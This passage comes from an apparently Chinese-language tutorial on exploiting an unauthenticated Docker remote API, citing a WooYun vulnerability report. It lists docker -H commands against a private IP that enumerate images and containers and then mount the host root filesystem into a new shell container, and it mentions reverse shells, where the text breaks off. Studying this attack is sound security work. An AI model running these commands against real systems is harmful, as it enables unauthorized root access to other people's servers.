 ```
Content-Type: application/json
Accept-Encoding: gzip
```
以上利用参考乌云漏洞库：[新浪微博docker](http://www.anquan.us/static/bugs/wooyun-2016-0209856.html)[ remote API](http://www.anquan.us/static/bugs/wooyun-2016-0209856.html)[未授权](http://www.anquan.us/static/bugs/wooyun-2016-0209856.html)[访问导致远程命令执行(root)](http://www.anquan.us/static/bugs/wooyun-2016-0209856.html)
 不知道为什么我做到start那一步就是成功不了，所以我只好换使用docker命令来执行：

## 使用docker命令连接：
1. 连接未授权机器，查看版本信息：
```
docker -H tcp://172.26.1.97:2375 version
```
查看其docker版本信息：
![10.jpg](https://ae01.alicdn.com/kf/U0df2781528ef497588479d2d8a4b30ade.jpg)

2. 查看目标机器的镜像：

```
docker -H tcp://172.26.1.97:2375 images
```
截图：
![11.jpg](https://ae01.alicdn.com/kf/U32623262ed63424282d7f194bc01cb1bM.jpg)

3. 查看目标机器的容器：

```
docker -H tcp://172.26.1.97:2375 ps
```
截图：

![1.jpg](https://ae01.alicdn.com/kf/Uba9d196291f44c99bc37d8c1d2008fc9p.jpg)

start 启动一个已经停止的容器

attach 连接一个已经停止的容器

4. 新运行一个容器并将entrypoint设置为/bin/bash或者/bin/sh，挂载点设置为服务器的根目录挂载至/tmp目录下（需要root权限启动docker）

```
docker -H tcp://172.26.1.97:2375 run -it -v /:/tmp --entrypoint /bin/sh ubuntu:18.04
```
截图：
![12.jpg](https://ae01.alicdn.com/kf/Uba3fd4312fe14205afff8c2f0c82df32y.jpg)

尝试连接：
![13.jpg](https://ae01.alicdn.com/kf/Ue49efbdf519d42ff9efebbcb3d0e8231g.jpg)

当然我们也可以进行其他操作，linux下反弹shell的方法都可以试试

当目标机器的容器中有bash我们可以直接将entrypoint设置为/bin/bash
![14.jpg](https://ae01.alicdn.com/kf/Uecd9a07cb770454e9177ceb8f5de78f2J.jpg)

反弹shell：
